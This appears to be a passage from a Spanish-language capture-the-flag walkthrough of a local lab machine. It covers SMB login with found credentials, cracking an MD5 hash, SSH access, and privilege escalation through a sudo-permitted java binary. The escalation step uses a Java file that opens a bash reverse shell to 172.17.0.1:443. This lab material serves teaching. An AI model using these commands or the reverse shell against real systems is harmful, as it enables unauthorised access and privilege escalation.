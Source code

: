 Ahora que tenemos las credenciales nos intentamos conectar al servico **SMB**
```bash
smbclient //172.17.0.2/shared -U "dylan" --password="KJSDFG789FGSDF78"
```

Logramos el acceso ahora tendremos que enumerar este servicio y si esta conectando con la aplicacion web podemos subir un archivo malicioso que nos permita ganar acceso al objetivo:
Tenemso un archivo: **augustus.txt** que descargaremos para ver su contenido:
```bash
get augustus.txt
```

Una ves descargado vemos su contenido:
```bash
cat augustus.txt

061fba5bdfc076bb7362616668de87c8
```

Determinamos el tipo de hash
```bash
hashid 061fba5bdfc076bb7362616668de87c8
Analyzing '061fba5bdfc076bb7362616668de87c8'
[+] MD2 
[+] MD5 
```

Tenemos un **HashMD5** asi que en la sigueite pagina crackeamos el hash: [MD5Decryption](https://www.md5online.org/md5-decrypt.html#google_vignette) y obtenemos en texto plano:
```bash
lovely
```

Ahora nos conectamos como el usuario: **augustus**
```bash
# Reverse shell o acceso inicial
ssh-keygen -R 172.17.0.2 && ssh augustus@172.17.0.2 # ( lovely )
```

---
## Escalada de Privilegios

###### Usuario `[ augustus ]`:
Listanod los permisos de este usuario:
```bash
sudo -l

User augustus may run the following commands on 57d2ad8c50ce:
    (dylan) /usr/bin/java # Tenemos una via potencial de escalar a este usuario
```

Ahora necesitamos crear un archivo malicioso en el directorio: **( /tmp )** con la siguiente estructura y el nombre: **( shell.java )**
```java
public class Shell {
    public static void main(String[] args) {
        Process p;
        try {
            p = Runtime.getRuntime().exec("bash -c $@|bash 0 echo bash -i >& /dev/tcp/172.17.0.1/443 0>&1");
            p.waitFor();
            p.destroy();
        } catch (Exception e) {}
    }
}
```
